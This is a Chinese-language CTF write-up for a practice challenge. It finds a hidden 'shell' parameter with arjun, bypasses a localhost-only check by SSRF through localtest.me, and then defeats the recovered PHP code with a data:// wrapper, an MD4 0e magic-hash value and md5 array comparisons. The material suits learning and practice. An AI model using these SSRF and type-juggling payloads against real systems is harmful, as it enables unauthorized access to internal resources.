 ### 域名跳转绕过

话不多说，直接上提（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68166abe58cb8da5c8da0592.png)

打开网页不让 F12 以及右键

![](https://pic1.imgdb.cn/item/68166ab358cb8da5c8da0591.png)

Ctrl + U 发现有个 PHP 文件

![](https://pic1.imgdb.cn/item/68166b0a58cb8da5c8da059e.png)

访问页面后再次查看源码给出了提示

![](https://pic1.imgdb.cn/item/68166b4958cb8da5c8da05a8.png)

[安装工具](https://github.com/s0md3v/Arjun?tab=readme-ov-file)

```sh
pip install arjun
```

![](https://pic1.imgdb.cn/item/68166bab58cb8da5c8da05b0.png)

执行命令

```sh
arjun -u http://challenge.qsnctf.com:31303/c3s4f.php
```

可以发现有个 `shell` 参数

![](https://pic1.imgdb.cn/item/68166c4c58cb8da5c8da05c4.png)

传入参数给出了新提示

![](https://pic1.imgdb.cn/item/68166cbb58cb8da5c8da05d0.png)

扫描目录发现有个 `secret.php`

![](https://pic1.imgdb.cn/item/68166dab58cb8da5c8da05e3.png)

只允许本地访问

![](https://pic1.imgdb.cn/item/68166d8958cb8da5c8da05dd.png)

结合提示以为是要伪造 XFF 或者 Client-IP，试过了都不行

利用 `shell` 参数构造 SSRF

```http
?shell=http://127.0.0.1/secret.php
```

无果

![](https://pic1.imgdb.cn/item/68166e4e58cb8da5c8da05ef.png)

使用域名跳转绕过

```http
?shell=http://localtest.me/secret.php
```

![](https://pic1.imgdb.cn/item/68166ec458cb8da5c8da05fa.png)

访问拿到源码

![](https://pic1.imgdb.cn/item/68166f2258cb8da5c8da0601.png)

```php
<?php
show_source(__FILE__);
include('k4y.php');
include_once('flag.php');


// Challenge 1
if (isset($_GET['DrKn'])) {
    $text = $_GET['DrKn'];
    if(@file_get_contents($text) == $key) {
        echo "有点东西呢"."</br>".$key1."</br>";
    } else {
        die("貌似状态不在线啊(╯_╰)</br>");
    }
} 
    

// Challenge 2
if (isset($_GET[$key1])) {
    $damei = $_GET[$key1];
    if (hash("md4", $damei) == $damei) {
        echo "又近了一步呢，宝~"."</br>".$key2."</br>".$key3;
    } else {
        die("达咩哟~");
    }
} 


// Challenge 3
if (isset($_POST[$key2]) && isset($_POST[$key3])) {
    $user = $_POST[$key2];
    $pass = $_POST[$key3];
  
    if (strlen($user) > 4 || strlen($pass) > 5) {
          die("还得练");
      }
     if ($user !== $pass && md5($user) === md5($pass)) {  
          echo "还不错哦"."$flag";
      }
      else {
          die("nonono") ;
      }
    }

?>
```

第一关就是传入给出的 Key，但是需要用到 `data` 伪协议

![](https://pic1.imgdb.cn/item/6816712558cb8da5c8da0628.png)

第二关是一个 `md4` 的弱比较绕过，其实可以通过科学计算法比较绕过

也就是说要找一个明文是一个科学计算法 0e 开头的，然后其加密也是 0e 开头后面都是数字

```http
&M_ore.8=0e001233333333333334557778889
```

最后一关就是 `md5` 强比较绕过，都为数组即可

![](https://pic1.imgdb.cn/item/681671c258cb8da5c8da0638.png)